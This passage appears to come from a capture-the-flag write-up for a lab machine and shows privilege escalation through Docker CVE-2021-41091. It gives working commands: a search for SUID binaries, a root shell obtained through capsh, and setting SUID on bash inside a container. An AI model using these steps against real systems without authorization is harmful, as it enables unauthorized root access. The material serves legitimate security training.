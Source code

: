 ## Privilege Escalation
We notice the box we SSHd into can be vulnerable to CVE-2021-41091. As it states they are using docker version `20.10.5`.

```bash
marcus@monitorstwo:~$ docker version
Client:
 Version:           20.10.5+dfsg1
 API version:       1.41
 Go version:        go1.15.9
 Git commit:        55c4c88
 Built:             Wed Aug  4 19:55:57 2021
 OS/Arch:           linux/amd64
 Context:           default
 Experimental:      true
```

>CVE-2021-41091 is  a bug that was found in Moby (Docker Engine) where the data directory (typically `/var/lib/docker`) contained subdirectories with insufficiently restricted permissions, allowing otherwise unprivileged Linux users to traverse directory contents and execute programs. When containers included executable programs with extended permission bits (such as `setuid`), unprivileged Linux users could discover and execute those programs

As the filesystem of these containers will be accessible to us through marcus their account, we will be able to escalate our privileges on the server.

To exploit this, we will need to:
1. Get root privileges on the docker box (www-data).
2. `setuid` on `/bin/bash` of the container.
3. Access the privileged `/bin/bash` of the container, via the server (marcus) and spawn a privileged shell on the server.

### Prepare the container

We need to first find a way to get root in the docker container. We check for any binaries that have the SUID enabled, `/sbin/capsh` looks interesting. By looking `capsh` on [gtfobins.io](https://gtfobins.github.io/) we find a way to get a root shell in the container. Once we have root privileges we add SUID to `/bin/bash`.

```bash
bash-5.1$ find / -type f -perm -u=s -ls 2>/dev/null
find / -type f -perm -u=s -ls 2>/dev/null
    42364     88 -rwsr-xr-x   1 root     root        88304 Feb  7  2020 /usr/bin/gpasswd
    42417     64 -rwsr-xr-x   1 root     root        63960 Feb  7  2020 /usr/bin/passwd
    42317     52 -rwsr-xr-x   1 root     root        52880 Feb  7  2020 /usr/bin/chsh
    42314     60 -rwsr-xr-x   1 root     root        58416 Feb  7  2020 /usr/bin/chfn
    42407     44 -rwsr-xr-x   1 root     root        44632 Feb  7  2020 /usr/bin/newgrp
     5431     32 -rwsr-xr-x   1 root     root        30872 Oct 14  2020 /sbin/capsh
    41798     56 -rwsr-xr-x   1 root     root        55528 Jan 20  2022 /bin/mount
    41819     36 -rwsr-xr-x   1 root     root        35040 Jan 20  2022 /bin/umount
    41766   1208 -rwsr-sr-x   1 root     root      1234376 Mar 27  2022 /bin/bash
    41813     72 -rwsr-xr-x   1 root     root        71912 Jan 20  2022 /bin/su
bash-5.1$ /sbin/capsh --gid=0 --uid=0 --
/sbin/capsh --gid=0 --uid=0 --
whoami
root
chmod u+s /bin/bash
```
